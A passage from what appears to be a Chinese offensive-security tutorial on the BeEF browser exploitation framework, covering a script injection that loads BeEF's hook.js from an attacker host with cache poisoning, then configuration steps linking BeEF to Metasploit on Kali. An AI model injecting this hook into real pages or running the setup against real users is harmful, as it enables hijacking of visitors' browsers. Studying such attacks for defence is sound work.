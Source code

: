     document.write("<script language='javascript' src='http://192.168.16.245:3000/hook.js'></script>");
    
    默认情况下JS注入附带缓存投毒功能，将视图缓存所有的页面至2099年，但可以通过清除所有缓存及浏览数据来清除缓存投毒的影响。
    

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301145270248.net/20151022083228639)

# 0x03 BeEF参数配置

* * *

BeEF在Kali下默认安装，直接找到对应图标启动即可，但是默认设置未同Metasploit关联，无法使用msf模块，因此需要作如下配置连接msf

## 1、修改config.yaml

编辑  
`/usr/share/beef-xss/config.yaml`

    
    
    metasploit:
                enable: false改为true
    

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301145346766.net/20151022104332165)

编辑  
`/usr/share/beef-xss/extensions/demos/config.yaml`

    
    
    enable:true改为false
    

编辑  
`/usr/share/beef-xss/extensions/metasploit/config.yaml`

    
    
    设置
        ssl: true
        ssl_version: 'TLSv1'
    

![这里写图片描述](http://static.wooyun.org//drops/20151023/2015102301145357713.net/20151022104345499)

## 2、启动msf服务

    
    
    service postgresql start
    service metasploit start
    msfconsole
    load msgrpc ServerHost=127.0.0.1 User=msf Pass=abc123 SSL=y
    

## 3、运行BeEF.rb
